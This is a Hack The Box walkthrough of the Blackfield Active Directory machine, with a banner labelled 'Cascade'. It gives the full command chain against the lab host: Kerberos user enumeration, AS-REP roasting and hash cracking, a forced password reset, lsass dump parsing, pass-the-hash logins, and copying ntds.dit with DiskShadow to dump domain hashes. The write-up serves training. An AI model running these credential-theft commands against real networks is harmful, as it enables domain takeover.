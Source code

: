 ```yaml
---
date: 2025-04-06
categories: [Windows, Hard, AD]
---
```


![Cascade](https://labs.hackthebox.com/storage/avatars/7c69c876f496cd729a077277757d219d.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [aas](https://app.hackthebox.com/users/6259)        | [Hack The Box](https://www.hackthebox.com/)     | Hard           | Windows   |

---








- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.
	
	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.10.192 -oG scan
	/opt/extractports scan
	nmap -p53,88,135,139,389,445,593,3268,5985,49677 -sCV -Pn 10.10.10.192 -oN ports
	nmap -p53,88,135,    389,445,593,3268,5985 -sCV -Pn 10.10.10.192 -oN ports
	```

	![image](https://github.com/user-attachments/assets/e88142a7-b3df-40db-89d4-26cff2d05c67)

- I found the domain `BLACKFIELD.local` and I add it to the file in the `hosts` file
- As I see port 53 open, I list mail servers and find another domain I can add to the `hosts` file

	```python
	dig @10.10.10.192 BLACKFIELD.local mx
	```

	![image](https://github.com/user-attachments/assets/6a47af27-c241-4792-baa3-ff56c17c3a56)

- Having the SMB ports open, I start to enumerate them using null credentials and manage to see several shares but find nothing relevant.

	```python
	netexec smb 10.10.10.192 -u "Guest" -p "" --shares
	```
	
	![image](https://github.com/user-attachments/assets/695079ae-127b-4443-bda9-c1b6ded2ae14)

- Using brute force I list system users and manage to find a couple of users.

	```python
	/opt/kerbrute userenum -d BLACKFIELD.local --dc 10.10.10.192  /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt 
	```

	![image](https://github.com/user-attachments/assets/46fe6f4b-b8e0-4953-aeb9-0eb8242c559e)

 - After validating that the users exist with kerbrute, we can make an ASREPRoast Attack (TGT) and find a user that does not have “Dont require preauth” set and we can get its hash.
	
	```python
	impacket-GetNPUsers BLACKFIELD.local/ -no-pass -usersfile usernames
	```
	
	![image](https://github.com/user-attachments/assets/9c3a869b-21f3-4c59-9d90-64b2f6916e3b)

- By brute force we tried to get the clear text password from the hash and succeeded in obtaining it.
	
	```python
	hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
	```
	
	![image](https://github.com/user-attachments/assets/a101bbbf-1699-41d2-bdd2-c91697951cdc)

- Using the credentials found for the user support we can list the resources shared by SMB and observe that he has access to more directories than if we use null credentials.

	```python
	netexec smb 10.10.10.192 -u support -p '#0XXXXXXXXXt' --shares
	```
	
	![image](https://github.com/user-attachments/assets/dc94be31-2d65-4387-9b01-fba26f486fa2)

- Before going into the SMB shares I decide to list the users and groups of the system to get a more global version of the system I am dealing with.
- My attention is drawn to the user SVC_backup that belongs both to the group “Remote Management Users”, with which I could connect to the system, and to the group “Backup Operators” with which I could make a copy of the system to extract the user hashes.
	
	```python
	ldapdomaindump -u 'BLACKFIELD.local\support' -p "#0XXXXXXXXXt" 10.10.10.192
	```
	
	![image](https://github.com/user-attachments/assets/f6eff121-05c2-47d4-8433-7359f0fc3808)
	
	![image](https://github.com/user-attachments/assets/da44a3cc-ec66-4777-8246-9884e67305e1)

- When consulting the shared resources I find many directories so I mount them in my machine to be able to consult them with greater facility.
	
	```python
	mkdir /mnt/smbmounted
	mount -t cifs //10.10.10.192/profiles$ /mnt/smbmounted -o username=support,password=#0XXXXXXXXXt,domain=BLACKFIELD.local,rw
	```

- When I look inside all the folders I can't find anything.
- I decide to continue enumerating the system in order to observe potential avenues for escalating privileges or making a lateral move with bloodhound.
- Starting from the user I have credentials, support, I have ForceChangePassword permissions on the user Audir2020. This allows me to change the user's password without needing to know his current password.
	
	```python
	bloodhound-python -c all -u 'support' -p "#0XXXXXXXXXt" -ns 10.10.10.192 -d BLACKFIELD.local
	```
	
	![image](https://github.com/user-attachments/assets/2970aa29-32a0-436b-ba44-beb2280b28d4)

- With the help of this [resource](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword) I manage to change the password for the user Audit2020. When consulting with these credentials which shared resources I have read permissions I find the forensic folder.

	```python
	net rpc password "AUDIT2020" -U "BLACKFIELD.local"/"support"%"#0XXXXXXXXXt" -S "dc01.BLACKFIELD.local"
		#Pepe1234!
	netexec smb 10.10.10.192 -u AUDIT2020 -p Pepe1234! --shares
	```
	
	![image](https://github.com/user-attachments/assets/0eb3c675-e9c2-4311-a4f7-71e14f1e7f21)

- When I consult the resource I find multiple files but I am struck by one inside the memory_analysis folder called lsass.zip

  ```python
  smbclient -U 'AUDIT2020' //10.10.10.192/forensic
  ```

-  I download the file, extract it and use pypykatz to query its contents and I manage to find the NT hash of the Administrator user (which is not valid) and that of the svc_backup user.

	```python
	 unzip lsass.zip
	 pypykatz lsa minidump lsass.DMP > lsass_pypykatz
	```
	
	![image](https://github.com/user-attachments/assets/5de257cf-a793-4f50-bfe9-43fc0795e72f)

- I try to do Pass-the-Hash (PtH) with the user svc_backup and I get access to the system and I can read the first flag.
	
	```python
	netexec winrm 10.10.10.192 -u svc_backup -H 96xxxxxxxxxxxxxxxxxxxxxxxxxxx00d:96xxxxxxxxxxxxxxxxxxxxxxxxxxx00d
	evil-winrm -i 10.10.10.192 -u svc_backup -p 96xxxxxxxxxxxxxxxxxxxxxxxxxxx00d:96xxxxxxxxxxxxxxxxxxxxxxxxxxx00d
	```
	
	![image](https://github.com/user-attachments/assets/8167a6ca-0138-43f9-9dda-6b068429ff69)

- As we have seen previously, the user svc_backup belongs to the group “Backup Operators” and when we see what permissions it has, SeBackupPrivilege and SeRestorePrivilege catch our attention.
- Thanks to these permissions we can try to make a copy of the system to extract the NT hashes of the users.

	![image](https://github.com/user-attachments/assets/e36e59c2-ed44-4491-8526-127b10049c6c)

- As a first attempt I make a copy of the sam and system files to use them later with secretsdump to obtain the hashes. When validating these hashes they are not correct so I have to look for other ways to make the copy.
	
	```python
	reg save hklm\sam .\sam.backup
	reg save hklm\system .\system.backup
	impacket-secretsdump -sam sam.backup -system system.backup LOCAL
	```
	
	![image](https://github.com/user-attachments/assets/66f5a740-2f30-4c99-8198-e7549abae2c8)

- I try to make a copy of the ntds file but it does not allow it at first.
- When looking for different ways to make a copy of this file I find a [blog](https://pentestlab.blog/tag/diskshadow/) that shows how using DiskShadow we can make the copy.
- We start by uploading a file with the following content.

	```python
	#it is important to leave a blank space at the end of each line.
	set context persistent nowriters 
	add volume c: alias someAlias 
	create 
	expose %someAlias% z:
	```

- Once the file is uploaded we use diskshadow pointing to the file.
	
	```python
	diskshadow.exe /s C:\Users\svc_backup\Documents\diskshadow.txt
	```

- This will create a replica of the system in z:\ and on this we can use robocopy to make a copy of the ntds file.
	
	```python
	robocopy /b z:\Windows\NTDS\ . ntds.dit
	```

- We download the copy of the file ntds.dit and together with the copy of system that we had done before, we get the system hashes
	
	```python
	impacket-secretsdump -ntds ntds.dit -system system.backup -hashes lmhash:nthash LOCAL
	```
	
	![image](https://github.com/user-attachments/assets/b3c3b20d-08cc-4eed-ad5c-2a3473e5ec75)
		
- I try to do Pass-the-Hash (PtH) with the user Administrator and I get access to the system and I can read the second flag.
	
	```python
	evil-winrm -i 10.10.10.192 -u Administrator -H 18XXXXXXXXXXXXXXXXXXXXXXXXXXee 
	```
	
	![image](https://github.com/user-attachments/assets/ba8c8d16-735b-48c5-bdaf-3983c518fdd0)

